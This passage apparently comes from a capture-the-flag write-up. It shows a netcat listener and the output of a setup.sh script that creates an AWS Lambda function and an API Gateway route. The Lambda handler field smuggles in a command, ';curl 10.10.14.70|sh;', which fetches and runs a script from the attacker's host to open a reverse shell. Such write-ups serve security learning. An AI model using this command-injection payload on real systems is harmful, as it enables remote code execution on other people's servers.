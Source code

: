 ```
$ sudo nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Running our `setup.sh` again it does not fully finish because it is busy executing our reverse shell.

```
$./setup.sh
{
    "FunctionName": "rce",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:rce",
    "Runtime": "nodejs8.10",
    "Role": "arn:aws:iam::123456:role/irrelevant",
    "Handler": "\";curl 10.10.14.70|sh;\"",
    "CodeSize": 405,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2021-09-19T11:43:53.775+0000",
    "CodeSha256": "6jk3Fx3fKCfj+kwwVgxY4sqLbU3PxGNXE1PbsJ5EIh8=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "769337b0-8d84-442c-b22d-94356252162a",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
{
    "id": "k2gdi3upog",
    "name": "rce",
    "createdDate": 1632051834,
    "apiKeySource": "HEADER",
    "endpointConfiguration": {
        "types": [
            "EDGE"
        ]
    },
    "tags": {},
    "disableExecuteApiEndpoint": false
}
{
    "id": "60241i4tec",
    "parentId": "9lr12s57bd",
    "pathPart": "{somethingId}",
    "path": "/{somethingId}"
}
{
    "httpMethod": "GET",
    "authorizationType": "NONE",
    "apiKeyRequired": false
}
{
    "type": "AWS_PROXY",
    "httpMethod": "POST",
    "uri": "arn:aws:apigateway:eu-west-1:lambda:path/2015-03-31/functions/arn:aws:lambda:us-east-1:000000000000:function:rce/invocations",
    "requestParameters": {},
    "passthroughBehavior": "WHEN_NO_MATCH",
```